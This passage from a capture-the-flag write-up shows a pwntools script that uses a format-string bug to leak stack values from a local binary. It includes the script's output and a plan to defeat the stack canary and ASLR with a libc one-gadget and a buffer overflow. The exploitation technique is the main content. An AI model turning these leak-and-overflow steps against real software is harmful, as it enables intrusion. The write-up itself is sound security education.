 I then changed my plan, I first just started by trying to leak the stack canary. The following script does the job:
```python
#!/usr/bin/env python2

from pwn import *

context.log_level = 'critical'
BINARY = './b0f'

for i in range(2, 20):
    p = process(BINARY)
    p.sendline('AAAA %{}$lx'.format(i))
    p.recvline()
    print '%02d: '%(i) + p.recvline()[:-1]
    p.close()

print ''
```

Output:
```sh
vagrant@ubuntu-xenial:/ctf/hackcon2019/pwn/not_so_easy_b0f$ ./fuzz.py
02: AAAA 7fcaad749780
03: AAAA 7fa69935d2c0
04: AAAA 7f99906d1700
05: AAAA 0
06: AAAA 7fffb1830e1e
07: AAAA 7fb513b918e0
08: AAAA 2438252041414141
09: AAAA a786c
10: AAAA 7ffd25f51a50
11: AAAA fcca802dabe6e00
12: AAAA 5597f784b830
13: AAAA 7f9ab4ce9830
14: AAAA 1
15: AAAA 7fff1cbd1168
16: AAAA 1398dbca0
17: AAAA 559f088b977a
18: AAAA 0
19: AAAA ad8b789ed837bb8c
```

We note three things here.

1. The string we type in appears at the 8th offset because `2438252041414141` is just `AAAA %8$lx` backwards in hex due to little endianness.
2. At offsets 2, 3, 4, 6, 7, 10, 13, and 15, we have what looks like libc addresses since they start with `0x7f`.
3. At offsets 11 and 19, we have what look like stack canary values.

So now I decided on a new plan. We can do the following to get a shell easily.

1. Leak both the stack canary and a libc address with the format string vulnerability.
2. Use the libc address to calculate the libc base address, then use that to find a one gadget in libc. This lets us bypass every single protection mechanism.
3. Use the buffer overflow to get RIP control and jump to our one gadget, making sure to not change the stack canary as we do it.

